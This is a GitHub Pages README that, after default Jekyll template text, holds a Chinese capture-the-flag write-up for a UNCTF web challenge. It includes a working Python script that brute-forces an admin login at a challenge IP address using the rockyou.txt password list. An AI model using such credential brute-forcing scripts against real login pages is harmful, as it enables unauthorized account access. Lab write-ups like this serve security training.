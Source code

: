 ## Welcome to hgh's GitHub Pages

You can use the [editor on GitHub](https://github.com/hghhgghhg/hgh/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown
# UNCTF高校联合招新赛-竞技赛

## web

### 帮赵总征婚

#### 描述

华北最大安全集团NSB老总glzjin最近终于找到了girlfriend，但他现在想要six wife了，你能帮他登录一下这个NSB征婚网站吗？

http://101.71.29.5:10018/

#### 解决

由网页源码知：

~~~
<!-- I like rockyou! -->
~~~

直接使用rockyou.txt爆破密码,脚本如下：

~~~
import requests, json
f = open('rockyou.txt','r')
url = 'http://101.71.29.5:10018/login.php'
data = { 'email': 'admin', 'password': '12344','remember_me':'1' }
s = requests.Session()
r = s.post(url, data)
c = b'{"ret":0,"data":{"msg":"\\u5bc6\\u7801\\u9519\\u8bef"}}'
tmp = 'aaa'
count = 0
while r.content == c:
    a = f.readline()
    data = { 'email': 'admin', 'password': a, 'remember_me': '1' }
    r = s.post(url, data)
    tmp = a
    count += 1
    if count % 100 == 0:
        print(a)
print(tmp)
print(r.content)
~~~
